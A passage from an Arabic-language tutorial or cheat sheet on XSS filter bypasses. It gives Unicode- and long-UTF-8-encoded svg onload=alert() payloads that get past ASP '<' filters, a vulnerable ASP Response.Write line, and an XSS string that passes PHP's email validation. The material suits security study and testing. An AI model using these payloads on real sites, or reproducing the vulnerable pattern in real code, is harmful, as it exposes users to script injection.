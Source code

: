 **الخلاصة:**
ترميز UTF-8 الطويل باستخدام `%EF%BC%9Csvg/onload%EF%BC%9Dalert%EF%BC%881)>` فعال لأنه يتجاوز مرشحات الترميز.

---

## **6. ناقلات حصرية لصفحات ASP (Vectors Exclusive for ASP Pages)**
{ #XSS_ecoded_payload }
**الشرح البسيط:**
يُستخدم لتجاوز مرشحات `<[alpha]` في صفحات ASP باستخدام ترميز Unicode لعلامة `<`.

**أمثلة تعمل:**
- `%u003Csvg onload=alert(1)>`: يُرمز `<` إلى `\u003C`.
- `%u3008svg onload=alert(2)>`: يستخدم رمز Unicode آخر لـ `<`.
- `%uFF1Csvg onload=alert(3)>`: يستخدم رمز Unicode مختلف.

**لماذا يعمل؟**
- ترميز Unicode يُضلل مرشحات `<` في ASP.
- `<svg onload=alert(1)>` يُنفذ بعد فك الترميز.
- يتجاوز مرشحات الحروف الأبجدية بعد `<`.

### ✅ الكود المصاب:

```asp
Response.Write(Request.QueryString("name"))
```

### 🔍 الاكتشاف:

- ابحث عن صفحات ASP تقبل إدخال من المستخدم دون ترميز صحيح.
    
- جرب:
    
    ```
    %u003Csvg onload=alert(1)>
    ```
    

**الخلاصة:**
ناقلات ASP باستخدام `%u003Csvg onload=alert(1)>` فعالة لأنها تستخدم ترميز Unicode لتجاوز مرشحات `<`.

---

## **7. تجاوز التحقق من البريد الإلكتروني في PHP (PHP Email Validation Bypass)**
{ #XSS_other_idea }
**الشرح البسيط:**
يُستخدم لتجاوز دالة PHP `filter_var()` مع `FILTER_VALIDATE_EMAIL` بإدخال بريد إلكتروني يحتوي على XSS.

**مثال يعمل:**
- `"><svg/onload=alert(1)>"@x.y`: يُعتبر بريدًا صالحًا لكنه يُنفذ `<svg onload=alert(1)>`.
